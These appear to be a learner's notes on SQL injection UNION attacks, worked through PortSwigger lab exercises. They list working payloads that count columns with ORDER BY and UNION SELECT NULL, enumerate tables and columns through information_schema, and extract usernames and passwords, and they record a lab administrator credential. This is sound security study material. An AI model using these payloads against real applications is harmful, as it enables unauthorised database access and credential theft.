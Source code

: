 		- involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs
		- ` ' ORDER BY 1--`
		- `' ORDER BY 2--`
		- `' ORDER BY 3--`
	- ##### Method two
		- used by NULL
			- `' UNION SELECT NULL--`
			- `' UNION SELECT NULL,NULL--`
			- `' UNION SELECT NULL,NULL,NULL--`
			- If the number of nulls does not match the number of columns, the database returns an error
			- [laboratory](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)
				- - step one
				    - `' order by 1--`
				    - `' order by 2--`
				    - `' order by 3--`
				- step two
				    - `'union select null ,null, null--`
				    -
- ## Using a SQL injection UNION attack to retrieve interesting data
	- - determining columns number
	- give database type
	- give all table
	 - '+union+select+table_name, version()+from+information_schema.tables+--
	 - find table
	 - users
	- see in to users tables
	- '+union+select+column_name, version()+from+information_schema.columns+where+table_name=+'users'+--    
    - find columns
        - username
        - password
- Retrieve password and username
    - '+union+select+username, password+from+users+--
    - administrator:f3cw0093dzz1wb2j0wtt
## Retrieving multiple values within a single column
- [laboratory](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
- #### Steps
-  determining number of columns
- type columns 
    - 'union select null,'a'--
- database version and type
    - 'union select null, version--
        - OK we have a PostgreSQL database
- retrieve all tables
    - '+union+select+null, table_name+from+information_schema.tables+--
        - users
- retrieve all column in users
    - '+union+select+null, column_name+from+information_schema.columns+where+table_name=+'users'+--
- retrieve username and password in the single column
    - `'+UNION+SELECT+NULL, username||'~'||password+FROM+users
# Blind SQL Injection
- ## What is blind SQL injection?
Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
